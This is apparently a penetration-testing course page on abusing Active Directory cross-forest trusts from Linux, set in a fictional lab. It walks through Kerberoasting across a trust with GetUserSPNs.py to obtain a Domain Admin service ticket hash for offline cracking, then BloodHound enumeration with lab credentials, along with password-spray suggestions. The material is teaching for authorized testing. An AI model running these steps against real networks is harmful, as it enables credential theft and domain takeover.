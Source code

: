 As we saw in the previous section, it is often possible to Kerberoast across a forest trust. If this is possible in the environment we are assessing, we can perform this with `GetUserSPNs.py` from our Linux attack host. To do this, we need credentials for a user that can authenticate into the other domain and specify the `-target-domain` flag in our command. Performing this against the `FREIGHTLOGISTICS.LOCAL` domain, we see one SPN entry for the `mssqlsvc` account.

## Cross-Forest Kerberoasting

#### Using GetUserSPNs.py

Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux

```shell-session
slomkm@htb[/htb]$ GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
-----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never> 
```

Rerunning the command with the `-request` flag added gives us the TGS ticket. We could also add `-outputfile <OUTPUT FILE>` to output directly into a file that we could then turn around and run Hashcat against.

#### Using the -request Flag

Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux

```shell-session
slomkm@htb[/htb]$ GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley  

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
-----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never>               


$krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$FREIGHTLOGISTICS.LOCAL/mssqlsvc*$10<SNIP>
```

We could then attempt to crack this offline using Hashcat with mode `13100`. If successful, we'd be able to authenticate into the `FREIGHTLOGISTICS.LOCAL` domain as a Domain Admin. If we are successful with this type of attack during a real-world assessment, it would also be worth checking to see if this account exists in our current domain and if it suffers from password re-use. This could be a quick win for us if we have not yet been able to escalate in our current domain. Even if we already have control over the current domain, it would be worth adding a finding to our report if we do find password re-use across similarly named accounts in different domains.

> [!NOTE]
> Suppose we can Kerberoast across a trust and have run out of options in the current domain. In that case, it could also be worth attempting a single password spray with the cracked password, as there is a possibility that it could be used for other service accounts if the same admins are in charge of both domains. Here, we have yet another example of iterative testing and leaving no stone unturned.
> 

---

## Hunting Foreign Group Membership with Bloodhound-python

As noted in the last section, we may, from time to time, see users or admins from one domain as members of a group in another domain. Since only `Domain Local Groups` allow users from outside their forest, it is not uncommon to see a highly privileged user from Domain A as a member of the built-in administrators group in domain B when dealing with a bidirectional forest trust relationship. If we are testing from a Linux host, we can gather this information by using the [Python implementation of BloodHound](https://github.com/fox-it/BloodHound.py). We can use this tool to collect data from multiple domains, ingest it into the GUI tool and search for these relationships.

On some assessments, our client may provision a VM for us that gets an IP from DHCP and is configured to use the internal domain's DNS. We will be on an attack host without DNS configured in other instances. In this case, we would need to edit our `resolv.conf` file to run this tool since it requires a DNS hostname for the target Domain Controller instead of an IP address. We can edit the file as follows using sudo rights. Here we have commented out the current nameserver entries and added the domain name and the IP address of `ACADEMY-EA-DC01` as the nameserver.

#### Adding INLANEFREIGHT.LOCAL Information to /etc/resolv.conf

Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux

```shell-session
slomkm@htb[/htb]$ cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```

Once this is in place, we can run the tool against the target domain as follows:

#### Running bloodhound-python Against INLANEFREIGHT.LOCAL

Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux

```shell-session
slomkm@htb[/htb]$ bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2

INFO: Found AD domain: inlanefreight.local
INFO: Connecting to LDAP server: ACADEMY-EA-DC01
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 559 computers
INFO: Connecting to LDAP server: ACADEMY-EA-DC01
INFO: Found 2950 users
INFO: Connecting to GC LDAP server: ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL
INFO: Found 183 groups
INFO: Found 2 trusts

<SNIP>
```

We can compress the resultant zip files to upload one single zip file directly into the BloodHound GUI.

#### Compressing the File with zip -r

Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux

```shell-session
slomkm@htb[/htb]$ zip -r ilfreight_bh.zip *.json

  adding: 20220329140127_computers.json (deflated 99%)
  adding: 20220329140127_domains.json (deflated 82%)
  adding: 20220329140127_groups.json (deflated 97%)
  adding: 20220329140127_users.json (deflated 98%)
```

We will repeat the same process, this time filling in the details for the `FREIGHTLOGISTICS.LOCAL` domain.

#### Adding FREIGHTLOGISTICS.LOCAL Information to /etc/resolv.conf

Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux

```shell-session
slomkm@htb[/htb]$ cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain FREIGHTLOGISTICS.LOCAL
nameserver 172.16.5.238
```

The `bloodhound-python` command will look similar to the previous one:

#### Running bloodhound-python Against FREIGHTLOGISTICS.LOCAL

Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux

```shell-session
slomkm@htb[/htb]$ bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2

INFO: Found AD domain: freightlogistics.local
INFO: Connecting to LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 5 computers
INFO: Connecting to LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
INFO: Found 9 users
INFO: Connecting to GC LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
INFO: Found 52 groups
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
```

After uploading the second set of data (either each JSON file or as one zip file), we can click on `Users with Foreign Domain Group Membership` under the `Analysis` tab and select the source domain as `INLANEFREIGHT.LOCAL`. Here, we will see the built-in Administrator account for the INLANEFREIGHT.LOCAL domain is a member of the built-in Administrators group in the FREIGHTLOGISTICS.LOCAL domain as we saw previously.

#### Viewing Dangerous Rights through BloodHound

![[Z Assets/Images/31eebe06a8e8e90dedb7ecff9ea03f06_MD5.webp]]

---

## Closing Thoughts on Trusts

As seen in the past few sections, there are several ways to leverage domain trusts to gain additional access and even do an "end-around" and escalate privileges in our current domain. For example, we can take over a domain that our current domain has a trust with, and find password re-use across privileged accounts. We've seen how Domain Admin rights in a child domain nearly always mean we can escalate privileges and compromise the parent domain using the ExtraSids attack. Domain trusts are a rather large and complex topic. The primer in this module has given us the tools to enumerate trusts and perform some standard intra-forest and cross-forest attacks.